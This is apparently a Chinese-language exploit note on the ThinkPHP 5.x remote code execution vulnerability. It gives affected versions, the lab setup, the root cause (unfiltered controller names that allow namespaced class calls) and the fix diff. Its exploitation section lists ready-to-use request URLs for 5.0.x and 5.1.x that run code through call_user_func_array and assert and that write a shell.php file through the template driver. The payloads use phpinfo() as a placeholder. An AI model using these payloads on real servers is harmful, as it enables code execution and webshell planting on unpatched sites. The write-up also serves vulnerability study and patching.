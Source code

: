 # ThinkPHP_5.X_全版本任意代码执行


## Affected Version

- ThinkPHP_5.X

## 0x00 源码地址

https://github.com/top-think/framework

## 0x01 搭建环境

phpstudy 2018

windows 10 x64

## 0x02 漏洞原理

控制器过滤不严，结合直接返回类名的代码操作，导致可以用命名空间的方式来调用任意类的任意方法。

**修复代码：**

https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815#diff-b14f70992e6922289d5fea7a43e4f8d3

```
        // 获取控制器名
        $controller = strip_tags($result[1] ?: $this->rule->getConfig('default_controller'));
   -      if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
   +      if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
            throw new HttpException(404, 'controller not exists:' . $controller);
        }

```
## 0x03 漏洞利用

5.1.x php版本>5.5

```
http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert

http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
```

5.0.x php版本>=5.4

```
http://localhost/thinkphp_5.0.22_with_extend/public///index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```

## 0x04 参考

[[漏洞分析]thinkphp 5.x全版本任意代码执行分析全记录](https://xz.aliyun.com/t/3570)

